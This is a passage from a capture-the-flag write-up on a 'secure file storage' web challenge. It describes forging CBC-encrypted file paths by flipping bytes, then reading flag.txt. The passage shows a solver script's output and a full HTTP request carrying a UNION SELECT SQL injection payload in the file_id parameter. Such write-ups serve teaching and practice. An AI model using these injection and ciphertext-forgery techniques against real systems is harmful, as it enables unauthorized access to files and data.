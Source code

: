 `payload` is the 48-byte base64 encrypted value that we dumped in the last step. `flag_txt_enc` is the encrypted value of `flag.txt` that we obtained during the SQL dump in the last section. `jwt_token` is the JWT token of our user and `user_id` is the user id of our user, which can be found in the data section of our JWT token.

First the script removes the first 16 byte block from the payload. Instead it will use the second block as the IV. Now our plaintext is a one 16 byte block that successfully decrypts to `t\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e` .  For each request we modify the first byte of our new payload, which when decrypted will modify the first byte of the plaintext. The only time we ever get a successful response back is when the server is able to successfully decrypt our payload to `/\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e`. 

We run our script and it outputs the following:
```
$ python3 solve.py
76
b'{"message":{"file":{"filename":"flag.txt","filepath":"/","id":1,"title":""},"size":26}}\n'
TNcwOVhmXhTe0gI7FM7cWE3owTKu76t278iGYK5TBh8=
999999 UNION SELECT 1,149,"","eOhsQAzpxg45OKrxM0HlOzDiJBIX6SZk/REqb10DF2Q=","TNcwOVhmXhTe0gI7FM7cWE3owTKu76t278iGYK5TBh8="
```

As you can see from the response, the file path was successfully decrypted as `/` and the file name was successfully decrypted as `flag.txt`. The size that is given in the response also tells us that the file actually exists on the server, so we know this is a successful payload. Now we can take the last line of output, url-encode it and send it to `/file/download` as the parameter `file_id`. 

#### Request:
```
POST /api/files/download HTTP/1.1
Host: uscybercombine-s4-web-secure-file-storage.chals.io
Cookie: auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFyanVuIiwiaWQiOjE0OX0.bow8Xe0vVpNhybZknSuCSw9OxDDJfXY3cuXFhcVZ-AE
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://uscybercombine-s4-web-secure-file-storage.chals.io/files
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 134
Content-Type: application/x-www-form-urlencoded

file_id=999999+UNION+SELECT+1,149,"","eOhsQAzpxg45OKrxM0HlOzDiJBIX6SZk/REqb10DF2Q%3d","TNcwOVhmXhTe0gI7FM7cWE3owTKu76t278iGYK5TBh8%3d"
```
